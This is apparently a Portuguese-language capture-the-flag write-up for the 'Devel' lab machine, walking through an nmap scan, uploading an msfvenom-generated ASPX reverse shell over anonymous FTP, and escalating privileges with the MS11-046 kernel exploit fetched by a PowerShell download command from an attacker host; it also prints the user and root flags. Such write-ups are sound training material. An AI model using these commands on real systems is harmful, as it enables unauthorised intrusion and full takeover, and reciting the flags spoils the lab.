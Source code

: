 # Devel WriteUp

## Scan and enumeration

**Comando**: sudo nmap -sV -Pn 10.129.217.239 -v -T5 -oN scan.txt

```
# Nmap 7.92 scan initiated Wed Dec 29 12:15:29 2021 as: nmap -sV -Pn -v -T5 -oN scan.txt 10.129.217.239
Nmap scan report for 10.129.217.239
Host is up (0.16s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 12:15:47 2021 -- 1 IP address (1 host up) scanned in 17.80 seconds
```

## Exploitation

Após feito o scan do alvo, podemos ver que o mesmo possui o usuário "anonymous" habilitado no ftp. Com isso, podemos gerar uma reverse shell em aspx e fazer o upload no ftp do alvo, e em seguida executar o arquivo pelo navegador para receber a reverse shell.

**Comando para criar a reverse shell**: msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=YOUR_IP LPORT=80 -o reverse-shell.aspx  

Tendo criado a reverse shell, podemos logar no ftp com o usuário anonymous e fazer o upload da shell com o comando 'put'.

Após fazer o upload da reverse shell, podemos executar no navegador.

## Privilege Escalation

Tendo pego a reverse shell, podemos partir para a escalção de privilégios. Podemos verificar a versão do sistema com o comando "systeminfo" e ver que sua versão é vulnerável a kernel exploit ms11-046.

**Exploit download**: https://www.exploit-db.com/exploits/40564 or `searchsploit -m 40564`.

**Compile exploit**: i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32

**Download exploit on target** : powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.13:9090/MS11-046.exe', 'c:\Users\Public\Downloads\MS11-046.exe')"

Após executa o exploit, seremos admin.

* User Flag:
```
cd c:\Users\babis\Desktop
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
```

* Root Flag:
```
cd c:\Users\Administrator\Desktop
type root.txt
e621a0b5041708797c4fc4728bc72b4b
```

